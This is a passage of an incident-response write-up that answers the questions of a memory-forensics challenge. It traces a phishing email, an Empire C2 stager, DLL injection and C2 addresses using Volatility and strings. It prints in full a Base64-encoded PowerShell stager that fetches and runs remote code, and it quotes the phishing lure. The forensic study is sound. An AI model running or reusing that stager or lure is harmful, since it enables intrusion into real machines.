8304    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --type=crashpad-handler "--user-data-dir=C:\Users\happy.grunwald\AppData\Local\Microsoft\Edge\User Data" /prefetch:7 --monitor-self-annotation=ptype=crashpad-handler "--database=C:\Users\happy.grunwald\AppData\Local\Microsoft\Edge\User Data\Crashpad" --annotation=IsOfficialBuild=1 --annotation=channel= --annotation=chromium-version=110.0.5481.178 "--annotation=exe=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --annotation=plat=Win64 "--annotation=prod=Microsoft Edge" --annotation=ver=110.0.1587.63 --initial-client-data=0x10c,0x110,0x114,0xe8,0x120,0x7ff8092e7750,0x7ff8092e7760,0x7ff8092e7770
8600    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --type=gpu-process --gpu-preferences=UAAAAAAAAADgAAAYAAAAAAAAAAAAAAAAAABgAAAAAAAwAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAEgAAAAAAAAASAAAAAAAAAAYAAAAAgAAABAAAAAAAAAAGAAAAAAAAAAQAAAAAAAAAAAAAAAOAAAAEAAAAAAAAAABAAAADgAAAAgAAAAAAAAACAAAAAAAAAA= --mojo-platform-channel-handle=1980 --field-trial-handle=2064,i,3423364331712402405,5026887878328839695,131072 /prefetch:2
8608    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --mojo-platform-channel-handle=2220 --field-trial-handle=2064,i,3423364331712402405,5026887878328839695,131072 /prefetch:3
8640    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --type=utility --utility-sub-type=storage.mojom.StorageService --lang=en-US --service-sandbox-type=service --mojo-platform-channel-handle=2524 --field-trial-handle=2064,i,3423364331712402405,5026887878328839695,131072 /prefetch:8
9152    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.5.781925637\1893690768" -childID 4 -isForBrowser -prefsHandle 5660 -prefMapHandle 5664 -prefsLen 36348 -prefMapSize 236464 -jsInitHandle 1544 -jsInitLen 246560 -a11yResourceId 64 -parentBuildID 20230227191043 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {b1bd5327-bcf7-4e25-b21d-a4d0e78523fa} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 5504 1fa30aa3c58 tab
8972    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --type=renderer --instant-process --first-renderer-process --lang=en-US --js-flags=--ms-user-locale= --device-scale-factor=1 --num-raster-threads=4 --enable-main-frame-before-activation --renderer-client-id=10 --time-ticks-at-unix-epoch=-1678428037175310 --launch-time-ticks=38993239 --mojo-platform-channel-handle=4500 --field-trial-handle=2064,i,3423364331712402405,5026887878328839695,131072 /prefetch:1
9776    msedge.exe  "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --type=renderer --lang=en-US --js-flags=--ms-user-locale= --device-scale-factor=1 --num-raster-threads=4 --enable-main-frame-before-activation --renderer-client-id=11 --time-ticks-at-unix-epoch=-1678428037175310 --launch-time-ticks=39341489 --mojo-platform-channel-handle=5076 --field-trial-handle=2064,i,3423364331712402405,5026887878328839695,131072 /prefetch:1
8960    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.9.1400979382\127719929" -parentBuildID 20230227191043 -prefsHandle 6800 -prefMapHandle 6628 -prefsLen 36348 -prefMapSize 236464 -appDir "C:\Program Files\Mozilla Firefox\browser" - {c30d2d5e-c864-49e6-b0b8-642da2dd0e48} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 5788 1fa32d6f258 rdd
10232   firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.10.305478841\858010334" -parentBuildID 20230227191043 -sandboxingKind 1 -prefsHandle 5696 -prefMapHandle 6804 -prefsLen 36348 -prefMapSize 236464 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {f445cd66-3674-49dc-8524-52e3f077d6e8} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 6572 1fa32d70d58 utility
5840    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.11.355599543\188711027" -parentBuildID 20230227191043 -sandboxingKind 0 -prefsHandle 6780 -prefMapHandle 7092 -prefsLen 36348 -prefMapSize 236464 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {6bc2b178-be59-4a45-952a-3b2d3745c7c3} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 7132 1fa27d0d858 utility
9888    WINWORD.EXE "C:\Program Files\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\happy.grunwald\Documents\C-level\Budget-Plan_Pakistan.docx
8624    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s WdiSystemHost
8688    SgrmBroker.exe  C:\WINDOWS\system32\SgrmBroker.exe
848     svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s UsoSvc
2104    svchost.exe C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s wscsvc
4352    svchost.exe C:\WINDOWS\system32\svchost.exe -k UnistackSvcGroup
1860    WinRAR.exe  "C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\happy.grunwald\Downloads\SystemHealthCheck.zip"
6412    WinRAR.exe  "C:\Program Files\WinRAR\WinRAR.exe" C:\Users\HAPPY~1.GRU\AppData\Local\Temp\Rar$DIb1860.16455\SystemHealthCheck.zip
9620    powershell.exe  "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQAwAEEARABNAEEATABnAEEAeQBBAEQAQQBBAE4AQQBBAHUAQQBEAEkAQQBNAGcAQQA0AEEAQwA0AEEATwBRAEEAMgBBAEQAbwBBAE0AZwBBADAAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAG4AZQB3AHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAHkAXwBOAE0AbwBQAGUAbQBXAEgALwAmADwAUgA/ADQAWQAsADcAIQBwAGEAVgAlACkAfgA5AGIAWgBqADoASgAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAbQBpAGoAQgBhAEEAVQBVAFcAcgBMAGgAaAByAEQARQA9AGsAagBWADAAaQAvAHUAYgB6AFkAOQBhAEgASwBwAEgAbgBpAGgANwA4AEkARgBNAGQAVwBFAD0AIgApADsAJABkAGEAdABhAD0AJAB3AGMALgBEAG8AdwBuAGwAbwBhAGQARABhAHQAYQAoACQAcwBlAHIAKwAkAHQAKQA7ACQAaQB2AD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABkAGEAdABhAD0AJABkAGEAdABhAFsANAAuAC4AJABkAGEAdABhAC4AbABlAG4AZwB0AGgAXQA7AC0AagBvAGkAbgBbAEMAaABhAHIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
9676    conhost.exe \??\C:\WINDOWS\system32\conhost.exe 0x4
8860    svchost.exe -
7228    dllhost.exe C:\WINDOWS\system32\DllHost.exe /Processid:{973D20D7-562D-44B9-B70B-5A0F49CCDF3F}
9472    SearchApp.exe   "C:\WINDOWS\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe" -ServerName:ShellFeedsUI.AppX88fpyyrd21w8wqe62wzsjh5agex7tf1e.mca
1172    Taskmgr.exe "C:\WINDOWS\system32\taskmgr.exe" /7
3932    rundll32.exe    rundll32.exe
3444    cmd.exe C:\WINDOWS\system32\cmd.exe
8028    conhost.exe \??\C:\WINDOWS\system32\conhost.exe 0x4
1028    smartscreen.ex  C:\Windows\System32\smartscreen.exe -Embedding
4812    audiodg.exe C:\WINDOWS\system32\AUDIODG.EXE 0x4e8
6048    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.20.1398560771\1688991168" -childID 16 -isForBrowser -prefsHandle 10396 -prefMapHandle 10524 -prefsLen 36348 -prefMapSize 236464 -jsInitHandle 1544 -jsInitLen 246560 -a11yResourceId 64 -parentBuildID 20230227191043 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {9448cbf7-f33b-4227-8aa3-28bc9f20c290} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 6356 1fa27d77e58 tab
8856    svchost.exe C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s gpsvc
1944    svchost.exe C:\WINDOWS\system32\svchost.exe -k wsappx -p -s AppXSvc
6964    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.21.1908961974\663478107" -childID 17 -isForBrowser -prefsHandle 10008 -prefMapHandle 10936 -prefsLen 36348 -prefMapSize 236464 -jsInitHandle 1544 -jsInitLen 246560 -a11yResourceId 64 -parentBuildID 20230227191043 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {7c46ac0e-bb9e-474f-9adb-6c8b6e5c7241} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 10668 1fa27d78a58 tab
4992    TeamViewer_Ser  "C:\Program Files (x86)\TeamViewer\TeamViewer_Service.exe"
5052    TeamViewer.exe  "C:\Program Files (x86)\TeamViewer\TeamViewer.exe"
7860    tv_w32.exe  "C:\Program Files (x86)\TeamViewer\tv_w32.exe" --action hooks  --log C:\Program Files (x86)\TeamViewer\TeamViewer15_Logfile.log
8916    tv_x64.exe  "C:\Program Files (x86)\TeamViewer\tv_x64.exe" --action hooks  --log C:\Program Files (x86)\TeamViewer\TeamViewer15_Logfile.log
5080    firefox.exe "C:\Program Files\Mozilla Firefox\firefox.exe" -contentproc --channel="1128.22.626281031\2061571559" -childID 18 -isForBrowser -prefsHandle 9980 -prefMapHandle 10292 -prefsLen 36348 -prefMapSize 236464 -jsInitHandle 1544 -jsInitLen 246560 -a11yResourceId 64 -parentBuildID 20230227191043 -win32kLockedDown -appDir "C:\Program Files\Mozilla Firefox\browser" - {4e3a2643-bbc5-4f92-8a12-e678d9e996ca} 1128 "\\.\pipe\gecko-crash-server-pipe.1128" 9916 1fa29ce0458 tab
620     SearchProtocol  "C:\WINDOWS\system32\SearchProtocolHost.exe" Global\UsGthrFltPipeMssGthrPipe5_ Global\UsGthrCtrlFltPipeMssGthrPipe5 1 -2147483646 "Software\Microsoft\Windows Search" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT; MS Search 4.0 Robot)" "C:\ProgramData\Microsoft\Search\Data\Temp\usgthrsvc" "DownLevelDaemon"
1416    SearchFilterHo  "C:\WINDOWS\system32\SearchFilterHost.exe" 0 808 812 820 8192 816 792
3356    RamCapture64.e  "C:\Users\happy.grunwald\AppData\Local\Temp\BelkaSoft Live RAM Capturer\RamCapture64.exe"
7312    conhost.exe \??\C:\WINDOWS\system32\conhost.exe 0x4
```


Again, intuition is needed here to determine what's malicious and what's not, but the command:

```powershell
powershell.exe  "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0AZwBlACAAMwApAHsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoARQB4AHAAZQBjAHQAMQAwADAAQwBvAG4AdABpAG4AdQBlAD0AMAA7ACQAdwBjAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHMAZQByAD0AJAAoAFsAVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAG4AaQBjAG8AZABlAC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBBAEIAMABBAEgAUQBBAGMAQQBBADYAQQBDADgAQQBMAHcAQQAwAEEARABNAEEATABnAEEAeQBBAEQAQQBBAE4AQQBBAHUAQQBEAEkAQQBNAGcAQQA0AEEAQwA0AEEATwBRAEEAMgBBAEQAbwBBAE0AZwBBADAAQQBBAD0APQAnACkAKQApADsAJAB0AD0AJwAvAG4AZQB3AHMALgBwAGgAcAAnADsAJAB3AGMALgBIAGUAYQBkAGUAcgBzAC4AQQBkAGQAKAAnAFUAcwBlAHIALQBBAGcAZQBuAHQAJwAsACQAdQApADsAJAB3AGMALgBQAHIAbwB4AHkAPQBbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBSAGUAcQB1AGUAcwB0AF0AOgA6AEQAZQBmAGEAdQBsAHQAVwBlAGIAUAByAG8AeAB5ADsAJAB3AGMALgBQAHIAbwB4AHkALgBDAHIAZQBkAGUAbgB0AGkAYQBsAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAE4AZQB0AC4AQwByAGUAZABlAG4AdABpAGEAbABDAGEAYwBoAGUAXQA6ADoARABlAGYAYQB1AGwAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAcwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAB3AGMALgBQAHIAbwB4AHkAOwAkAEsAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkALgBHAGUAdABCAHkAdABlAHMAKAAnAHkAXwBOAE0AbwBQAGUAbQBXAEgALwAmADwAUgA/ADQAWQAsADcAIQBwAGEAVgAlACkAfgA5AGIAWgBqADoASgAnACkAOwAkAFIAPQB7ACQARAAsACQASwA9ACQAQQByAGcAcwA7ACQAUwA9ADAALgAuADIANQA1ADsAMAAuAC4AMgA1ADUAfAAlAHsAJABKAD0AKAAkAEoAKwAkAFMAWwAkAF8AXQArACQASwBbACQAXwAlACQASwAuAEMAbwB1AG4AdABdACkAJQAyADUANgA7ACQAUwBbACQAXwBdACwAJABTAFsAJABKAF0APQAkAFMAWwAkAEoAXQAsACQAUwBbACQAXwBdAH0AOwAkAEQAfAAlAHsAJABJAD0AKAAkAEkAKwAxACkAJQAyADUANgA7ACQASAA9ACgAJABIACsAJABTAFsAJABJAF0AKQAlADIANQA2ADsAJABTAFsAJABJAF0ALAAkAFMAWwAkAEgAXQA9ACQAUwBbACQASABdACwAJABTAFsAJABJAF0AOwAkAF8ALQBiAHgAbwByACQAUwBbACgAJABTAFsAJABJAF0AKwAkAFMAWwAkAEgAXQApACUAMgA1ADYAXQB9AH0AOwAkAHcAYwAuAEgAZQBhAGQAZQByAHMALgBBAGQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAbQBpAGoAQgBhAEEAVQBVAFcAcgBMAGgAaAByAEQARQA9AGsAagBWADAAaQAvAHUAYgB6AFkAOQBhAEgASwBwAEgAbgBpAGgANwA4AEkARgBNAGQAVwBFAD0AIgApADsAJABkAGEAdABhAD0AJAB3AGMALgBEAG8AdwBuAGwAbwBhAGQARABhAHQAYQAoACQAcwBlAHIAKwAkAHQAKQA7ACQAaQB2AD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABkAGEAdABhAD0AJABkAGEAdABhAFsANAAuAC4AJABkAGEAdABhAC4AbABlAG4AZwB0AGgAXQA7AC0AagBvAGkAbgBbAEMAaABhAHIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAdABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

certainly sticks out. We can also see that it was captured from the same process we saw in our network scan, so we can assume that this command is creating some sort of network connection.


Decoding the payload gives the following:


AI gives a pretty good synopsis of what this is actually doing:



With all of this information in mind, we can answer our first tasks!

## Initial Access

> 1. What is the PID of the malicious process that gave the threat actor initial access?

Answer: 9620


> 2. There is no evidence of an email client being used. Which application did Happy Grunwald use to read the emails?

Looking at the list of running processes during the incident shows no email client being used. Firefox, which had multiple processes running at the time of the incident, suggests that this was the application being used.

Answer: firefox


> 3. Happy told the security team that the email was from a System Administrator, so he immediately opened the attachment. What is the email address that sent the phishing email?

We're told in the description that "Alonzo" was the name of the system administrator, so we can assume that the threat actor included his name in the email.

I use strings to find the email:

```bash
$ strings Dump.mem | grep -i "Alonzo"
...
alonzo.spire@forela.co.uk
```


Answer: alonzo.spire@forela.co.uk

> 4. What was the subject/topic of the phishing email?


For this part, I had to rely on good old `strings` and `grep`, which significantly increased the time it took to find. Later on I cover a tool called `bulk_extractor` that could've made this process easier.

```bash
$ strings Dump.mem | grep -i "alonzo" | tee mentions_of_alonzo
```

Inspecting the output, there's a lot of junk, but this email between Alonzo and Happy Grunwald stood out:

```http
<meta /><div><div style="font-family: Verdana, Arial, Helvetica, sans-serif;font-size: 10.0pt;"><div>Hello Sir<br /></div><div><br /></div><div>I am sending you this reminder email that we have a meeting scheduled with the operations team at&nbsp;Arfa Software Technology Park, tomorrow afternoon at 3:00 pm.<br /></div><div><br /></div><div>Also I am attaching a zip file which contains a tool i created to clean up and maintain your workstation. Please open the zip file with the password &quot;forela1234&quot;. There is another zip inside, it has the&nbsp; password &quot;forela123&quot;, unzip that one too and then run the script. This is because of the secure attachment policy of our email vendor zoho, i had to zip the script as i couldnt directly send it to you.</div><div><br /></div><div><br /></div><div class="x_2017168099zmail_signature_below"><div id=""><div>Kind Regards,<br /></div><div><br /></div><div>Alonzo Spire<br /></div><div><a href="mailto:alonzo.spire@forela.co.uk" target="_blank">alonzo.spire@forela.co.uk</a><br /></div><div>System Administrator<br /></div><div>IT<br /></div><div><br /><br /></div></div></div><div><br /></div></div><br /></div>
```


This doesn't return the subject of the email, but we can see some of its contents.

After waiting 10 years for my bash commands to finish, I find the following output:

```bash
$ strings -el Dump.mem | grep -B10 -A10 "Arfa Software Technology Park" | tee mentions_of_park

 THU JAN 19 9:24 AM ReminderAdd taskPermalinkSnoozeMeeting with The New Operations teamASAlonzo SpireAlonzo Spire <alonzo.spire@forela.co.uk>6:17 AMFri, 10 Mar 2023 6:17:44 AM +0100Happy GrunwaldMeeting with The New Operations team -  Hello Sir I am sending you this reminder email that we have a meeting scheduled with the operations team at Arfa Software Technology Park, tomorrow afternoon at 3:00 pm. Also I am attaching a zip file which contains a tool i created to clean up and To"Happy Grunwald"<happy.grunwald@forela.co.uk>TagsSecurityTLSLearn moreHello SirI am sending you this reminder email that we have a meeting scheduled with the operations team at
Arfa Software Technology Park, tomorrow afternoon at 3:00 pm.Also I am attaching a zip file which contains a tool i created to clean up and maintain your workstation. Please open the zip file with the password "forela1234". There is another zip inside, it has the
 password "forela123", unzip that one too and then run the script. This is because of the secure attachment policy of our email vendor zoho, i had to zip the script as i couldnt directly send it to you.Kind Regards,Alonzo Spirealonzo.spire@forela.co.ukSystem AdministratorIT1 AttachmentDownload as Zip SystemHealthCheck  .zip 2.0 KBDownloadAdd to WorkDriveReplyReply AllForwardEdit as newDrop Here!ExtensionsDidn't find what you're looking for?Search in Marketplace!Added to FavoritesMore AppsMailMailNotificationsMark all as readClear AllDon't show again#wmstoolbar *::-webkit-scrollbar, #zchhis *::-webkit-scrollbar, #wms_fork_container *::-webkit-scrollbar{ height:8px; width:8px } #wmstoolbar *::-webkit-scrollbar-thumb, #zchhis *::-webkit-scrollbar-thumb, #wms_fork_container *::-webkit-scrollbar-thumb{ background-color: #dcdcdc }Happy GrunwaldAvailableSettingsGeneralPause chat hereSound NotificationOne - One ChatsMentionGroup ChatsChannelsPinned ChatsReminder MessagesBot MessagesAudio & Video CallsScreen ShareDesktop NotificationOne - One ChatsMentio
```


Answer: Meeting with The New Operations team


> 5. Happy was going through a document at the time of the incident. What's the full path of the document?

Looking through the list of artifacts I collected at the start shows the following in the command-line history:

```bash
$ cat cmdline | grep -i budget
9888    WINWORD.EXE "C:\Program Files\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\happy.grunwald\Documents\C-level\Budget-Plan_Pakistan.docx
```


Answer: C:\Users\happy.grunwald\Documents\C-level\Budget-Plan_Pakistan.docx


> 6. Recover the document and find the Topic/heading of the document.


Volatility has a plugin that can dump files associated with a specific process.

```bash
$ mkdir dump_output
$ vol3 -f Dump.mem -o dump_output windows.dumpfiles --pid 9888
$ ls dump_output/ | grep -i Budget-Plan_Pakistan.docx

file.0xdc81d8415100.0xdc81d1e02a60.SharedCacheMap.Budget-Plan_Pakistan.docx.vacb
file.0xdc81d8415100.0xdc81d82a6490.DataSectionObject.Budget-Plan_Pakistan.docx.dat
```

The one we want to inspect is the second one.

```bash
$ file dump_output/file.0xdc81d8415100.0xdc81d82a6490.DataSectionObject.Budget-Plan_Pakistan.docx.dat
dump_output/file.0xdc81d8415100.0xdc81d82a6490.DataSectionObject.Budget-Plan_Pakistan.docx.dat: Microsoft Word 2007+
```


Opening that up reveals the header.

Answer: Budget plan For 2023-Asia Expansion


> 7. What's the expected date of start of business in Pakistan?

This can also be answered from the contents of the document that was open.

Answer: 2023-09-15

> 8. What's the name of the malicious attachment that led to the initial infection?


Answer: SystemHealthCheck.zip


> 9. What's the name of the malicious stager file that established C2 communication, giving the attacker a foothold?

From the email's contents, we're able to figure out that the threat actor tricked the user into downloading the zip file and extracting both zip files using the passwords `forela1234` and `forela123`.

```bash
$ 7z x -p"forela1234" First.zip
$ 7z x -p"forela123" Second.zip
```

which gives us the file `SystemHealthCheck.hta`.

Answer: SystemHealthCheck.hta


>10. To bypass email filters the attacker password protected the both of the zip files and provided the passwords to Happy. You are given the malicious attachment, but sadly Happy doesn't remember the passwords. Recover the passwords and provide them in the order given by the attacker, separated by a comma and a space.

Answer: forela1234, forela123

> 11. Submit the MD5 hash of the stager file you retrieved.


Side note: a good practice when dealing with malware is to label the file as such so other forensic examiners know what they're dealing with.

```bash
$ mv SystemHealthCheck.hta SystemHealthCheck.hta.MALWARE
$ md5sum SystemHealthCheck.hta.MALWARE
dd46189c153f8e3f4d34868df3f6511f  SystemHealthCheck.hta.MALWARE
```

Answer: dd46189c153f8e3f4d34868df3f6511f


> 12. Which C2 Framework was used by the attacker?

By searching for the hash on [Virustotal](https://www.virustotal.com) I was able to figure out that this stager file has been seen in the wild.



It has the popular label `trojan.powershell/empire`, a well-known C2 framework.


Answer: Empire


## Privilege Escalation

> 13. What is the PID of the process the threat actor abused for privilege escalation?

To figure out how an attacker escalated privileges, one common technique is to look for all running shell instances.

Using the Volatility plugin `windows.pstree`, we can figure out which processes spawned other processes.

This plugin again outputs a lot of text, but I like to search specifically for instances of `cmd.exe` and `powershell.exe`.


From the process tree, we can observe an unusual parent-child relationship:

```
svchost.exe (4352) 
└── rundll32.exe (3932) (no arguments)
    └── cmd.exe (3444) 
        └── TeamViewer.exe (5052)
```


`svchost.exe` is a service host whose job is to run Windows services like DNS, DHCP, etc. However, it's abnormal for it to be launching executables like `rundll32.exe`.

`rundll32.exe` is a common utility for executing functions inside DLLs and is typically launched by other applications. Arguments are usually specified by its calling process to indicate which DLL and function it should call. However, from the process listing we see that it doesn't actually make any calls to other DLLs, which makes me believe that shellcode was injected into it.

To figure out how `svchost.exe` is even spawning `rundll32.exe` we can use the `windows.dlllist` plugin which reveals a DLL being loaded from an uncommon directory:

```bash
$ vol3 -f Hijacked/Dump.mem windows.dlllist --pid 4352
...
4352    svchost.exe 0x7ff834f80000      0x6000  Winsrvc.dll     C:\Users\happy.grunwald\AppData\Local\Temp\Winsrvc.dll  2023-03-10 06:16:53.000000 UTC  Disabled
```

Usually — but not always — DLLs are located inside `C:\Windows\System32`, so it's very abnormal to see one being loaded from anywhere else, especially a user's temp directory. This confirms that this is a case of DLL injection.

Answer: 4352


> 14. What is the path of the malicious file that resulted in privilege escalation?

Answer: C:\Users\happy.grunwald\AppData\Local\Temp\Winsrvc.dll

> 15. What is the Mitre sub-technique ID with which the attacker escalated their privileges?

If you want to read more about DLL injection: https://attack.mitre.org/techniques/T1055/001/

Answer: T1055.001

## C2 Infrastructure

>16. The attacker connected to 2 different C2 addresses. What was the C2 IP and port number pair which facilitated initial remote access to the threat actor?

From the PowerShell command we decoded, the stager file, and our Volatility network scan, we know for sure what the first C2 IP and port contacted were.

Answer: 43.204.228.96:24


> 17. Hunt for the second C2 Address to which connection was made by a LOLBIN after escalating privileges.

Looking back at our earlier Volatility network scan, we can see that `rundll32.exe` makes a connection to 13.233.33.88 on port 4444.

Answer: 13.233.33.88:4444


As a side note, searching both of those C2 addresses on VirusTotal suggests the operators may be based in India.


> 18. The attacker directly downloaded a script from a web server. What is the full URL from where it was downloaded?

For this question, I struggled a bit, so I decided to use [bulk_extractor](https://github.com/simsong/bulk_extractor), a forensics tool that extracts different regex matches from a raw memory dump.

```sh
$ bulk_extractor -o bulk_out/ Dump.mem
```

This tool creates a file called `url.txt` which contains the different URLs it finds.

This file contains a lot of output, so I filter specifically for IP addresses:

```sh
$ grep -oE '\b(([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\.){3}([0-9]|[1-9][0-9]|1[0-9]{2}|2[0-4][0-9]|25[0-5])\b' url.txt | sort -u

1.0.0.0
1.1.1.1
1.5.5.7
127.0.0.1
13.127.18.201
192.168.18.4
221.176.65.55
23.43.1.4
3.6.1.5
43.204.228.96
5.5.7.48
9.9.9.9
```

We can see the original C2 IP address from before and notice a new remote IP address: `13.127.18.201`.

Digging through the bulk_extractor output further, we can find the URL for the downloaded file.

